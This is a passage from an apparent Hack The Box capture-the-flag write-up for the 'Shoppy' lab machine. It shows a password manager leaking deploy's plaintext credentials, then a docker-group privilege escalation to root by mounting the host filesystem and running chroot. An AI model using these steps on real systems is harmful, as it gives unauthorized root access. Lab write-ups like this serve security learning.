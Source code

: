 Let's try to enter `Sample` as the password

```bash
jaeger@shoppy:~$ sudo -u 'deploy' /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!

```
We got the cred for user **deploy**!

User deploy belongs to group docker, in the mattermost channel, they mentioned that the deploy machine will be running docker.

```bash
jaeger@shoppy:~$ su deploy
Password: 
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

#Priv Esc

Since we belongs to user group `docker`, we can run docker with root privilege, here we are trying to run the image mounting the host disk and chroot on it

GTFO bins got your back

https://gtfobins.github.io/gtfobins/docker/


```bash
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 8  bytes 736 (736.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Thank you for reading my post, I will try to post more Hack The Box write up in the future, stay tune!